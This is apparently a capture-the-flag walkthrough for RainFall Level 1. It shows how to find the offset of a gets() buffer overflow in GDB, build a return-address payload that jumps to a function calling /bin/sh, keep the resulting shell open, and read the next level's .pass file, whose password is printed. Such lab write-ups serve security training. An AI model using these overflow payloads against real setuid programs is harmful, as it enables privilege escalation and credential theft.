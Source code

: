 # 🧩 Level 1 - Walkthrough

## 📄 Listing Files

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$
```

- 🔍 The directory contains an executable file: level1.

## 🧪 Testing the Program
```bash
level1@RainFall:~$ ./level1
a
level1@RainFall:~$ ./level1 test
423
level1@RainFall:~$
```
- The program waits for input and exits after pressing Enter.
- It does not crash, but just prints some numbers.

## 🐞 Static Analysis in GDB
- The binary contains two main functions: main and run.
- The run function:
- - Uses fwrite to display:
``` scss
Good... Wait what?
```
- - Then executes /bin/sh using system.
- The main function:
- - Uses gets() for user input, which is vulnerable to buffer overflow.

## 💣 Buffer Overflow Exploit
👉 The idea: Overwrite the return address (RET) in main() to jump to run().

## 🎯 Find EIP Offset
```bash
level1@RainFall:~$ python -c 'print "a" * 80' > /tmp/exploit
level1@RainFall:~$ gdb ./level1
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

## 🛠️ Build the Exploit Payload
- Padding: "a" * 76
- Address of run(): 0x08048444 (little-endian: \x44\x84\x04\x08)
```bash
level1@RainFall:~$ python -c 'print "a" * 76 + "\\x44\\x84\\x04\\x08"' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- 😬 The shell exits immediately because it's non-interactive.

## 🪄 Trick to Keep Shell Open
Use cat /tmp/exploit - to keep stdin open:
```bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
```
🎉 Success! Logged in as level2.

## 🔐 Switching User
```bash
level1@RainFall:~$ su level2
Password:
...
level2@RainFall:~$
```

## ✅ Level 1 Passed!
```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
- 🎉 Done!